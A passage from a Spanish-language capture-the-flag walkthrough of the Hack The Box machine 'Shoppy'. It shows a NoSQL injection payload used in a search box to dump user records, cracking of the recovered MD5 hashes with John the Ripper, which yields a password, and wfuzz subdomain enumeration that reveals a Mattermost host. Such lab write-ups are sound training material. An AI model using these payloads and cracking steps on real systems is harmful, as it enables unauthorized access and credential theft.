 Vemos que podemos descargar un json, pero igual nos interesaría saber si existen más usuarios; por lo tanto, aplicaremos la misma inyección `admin' || '1==1` sobre el cuadro de búsqueda.

![""](/assets/images/htb-shoppy/shoppy5.png)

Tenemos los usuarios **admin** y **josh** con sus respectivas contraseñas, por lo tanto, vamos a tratar de crackearlas.

```
❯ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (?)
1g 0:00:00:00 DONE (2023-01-17 22:01) 1.818g/s 26078Kp/s 26078Kc/s 27555KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

Tenemos la contraseña del usuario **josh** que es **remembermethisway**. Podríamos tratar de acceder por el puerto 22 con las credenciales obtenidas; sin embargo, no podemos acceder. Vamos a tratar de enumerar el servidor web buscando posibles subdominios.

```
❯ wfuzz -c -L --hc=404 --hw=129,11 -w /opt/SecLists/Discovery/Web-Content/oauth-oidc-scopes.txt -H "Host: FUZZ.shoppy.htb" http://10.10.11.180
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.180/
Total requests: 578

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000021:   200        0 L      141 W      3122 Ch     "Mattermost"                                                                                                               

Total time: 0
Processed Requests: 578
Filtered Requests: 577
Requests/sec.: 0
```